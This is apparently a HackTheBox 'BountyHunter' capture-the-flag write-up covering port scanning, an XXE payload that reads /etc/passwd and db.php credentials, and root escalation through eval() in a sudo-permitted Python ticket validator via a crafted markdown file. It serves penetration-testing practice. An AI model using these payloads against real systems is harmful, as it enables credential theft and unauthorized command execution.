

# HackTheBox(HTB) - BountyHunter - WriteUp

> Austin Lai | November 18th, 2021

---

<!-- Description -->


Difficulty: Easy

The room is completed on November 03rd, 2021

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [HackTheBoxHTB - BountyHunter - WriteUp](#hacktheboxhtb---bountyhunter---writeup)
    - [Table of Contents](#table-of-contents)
    - [Let's Begin Here !!!](#lets-begin-here-)

<!-- /TOC -->

---

## Let's Begin Here !!!

Start the instance and perform rustscan for network reconnaissance.

Rustscan:

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time âO>
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.100:22
Open 10.10.11.100:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 20:30 +08
Scanned at 2021-11-03 20:30:48 +08 for 7s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 8.54 seconds
           Raw packets sent: 2 (88B) | Rcvd: 2 (88B)
```

Check on port 80 - HTTP.

Main page:


Portal page:


Bounty Report System page:


And we perform a web fuzzing through gobuster directories listing.

Gobuster:

```bash
http://10.10.11.100/.hta                 (Status: 403) [Size: 277]
http://10.10.11.100/.htaccess            (Status: 403) [Size: 277]
http://10.10.11.100/.htpasswd            (Status: 403) [Size: 277]
http://10.10.11.100/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
http://10.10.11.100/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
http://10.10.11.100/index.php            (Status: 200) [Size: 25169]
http://10.10.11.100/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
http://10.10.11.100/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
http://10.10.11.100/server-status        (Status: 403) [Size: 277]
```

There is one directory named ` resources ` contain interesting files:


Checking across all the files, ` README.txt ` is a checklist of tasks



And ` bountylog.js ` show the code to process and how the bounty report system work:


Then we decide to test out the bounty report system:


Checking the request information using browser developer tools, there is an interesting base64 information in the form data:


Decode the base64 and we get XML:


Seem like we can perform XXE Injection Attack.

We craft a basic XXE Injection payload here and encode with base64, best to use [CyberChef](https://gchq.github.io/CyberChef/) to encode to base64 and URL encode to encode all special characters:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> ]>
<bugreport>
<title>&ent;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

Result of encoding:


Now we can use ` curl ` command to post our payload to bounty report system, base on the information from ` bountylog.js `; it will be send the post request to ` tracker_diRbPr00f314.php` 

Result of post request using ` curl `:


The result we get contain a big chunk of base64, let's decode it and we get the ` /etc/passwd `


Great ! We have a workable XXE Injection attacks, now we target to read ` db.php ` that usually located at ` /var/www/html/ `.

Why we target ` db.php `? The ` README.txt ` shown there is a database connection from bounty report system; and ` db.php ` often contain plain text credential.

So in this case, we craft our XXE payload to read ` db.php `:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=db.php"> ]>
<bugreport>
<title>&ent;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

And we encode it with base64 and URL encoding as well, then we use ` curl ` to post request to bounty report system along with our new payload to read ` db.php `.

Result of our new payload:


Then we decode it with base64 and we have a valid credential:


We tried to login to ssh using the credential we found, however unsuccessful.

While checking the ` /etc/passwd ` that we gotten ealier, there is another user - ` development `.

Using ` development `, we are now logging in to the system.

Checking user home directory.


Check sudo command:


From the sudo command, we know that ` development ` user can run python along with the ` ticketValidator.py `.

We examine the content of ` ticketValidator.py `.

<details><summary>ticketValidator.py</summary>

```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

</details>


Based on the context of the script, we can supply our own markdown file with malicious payload.

If you carefully examine the script, there is a python evaluate statement, mean we can execute command using python evaluate statement.

In order to craft a valid markdown file to supply to the script, there are a few things to be included.

The markdown file must contain below as the script will validate the exact contain:

```
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
```

The last part is calculation, the code we craft must start with ** and able to Modulus by 7 and equal to 4.

```
**102+ 10 == 112 
```

Then we append our payload after the code with ` and ` operator, python evaluate statement will process anything after ` and ` operator.

Our final content of the markdown file will be:

```
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('cat /root/root.txt') == False
```

We save the markdown file as ` root.md ` in the ` development ` home directory.


Now we run the script and supply our own markdown file.


<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB

